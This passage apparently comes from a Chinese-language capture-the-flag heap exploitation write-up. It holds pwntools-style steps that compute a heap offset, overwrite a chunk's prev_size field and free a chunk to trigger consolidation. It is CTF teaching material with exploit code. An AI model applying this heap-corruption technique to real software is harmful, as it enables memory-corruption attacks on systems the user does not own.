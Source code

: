 ```bash
chunk_list_addr=0x602040
chunk2_addr=heap_addr+0xf0
offset=chunk2_addr-chunk_list_addr
leak('chunk_list_addr >> ',chunk_list_addr)
leak('chunk2_addr >> ',chunk2_addr)
leak('offset >> ',offset)
```

[![](assets/1701612371-c9bfa73494660c77df6ea48dc277cea0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151843-831a9d1a-17df-1.png)

```bash
add(0xe8, "g"*(0xe8-0x8) + p64(offset))
```

改一下 chunk2 的 pre\_size

[![](assets/1701612371-ce429d667c33741437b134c74cead669.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151858-8bb74e5a-17df-1.png)

```bash
delete(4)
```
